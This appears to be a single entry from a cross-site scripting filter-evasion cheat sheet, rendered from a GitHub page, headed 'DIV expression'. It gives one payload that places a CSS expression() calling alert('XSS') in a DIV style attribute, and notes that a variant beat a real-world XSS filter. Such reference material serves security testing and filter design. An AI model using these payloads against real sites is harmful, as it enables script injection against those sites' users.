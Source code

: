 <h3><a id="user-content-div-expression" class="anchor" aria-hidden="true" href="#div-expression"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>DIV expression</h3>
<p>A variant of this was effective against a real world cross site scripting filter using a newline between the colon and "expression":</p>
<pre><code>&lt;DIV STYLE="width: expression(alert('XSS'));"&gt;
</code></pre>
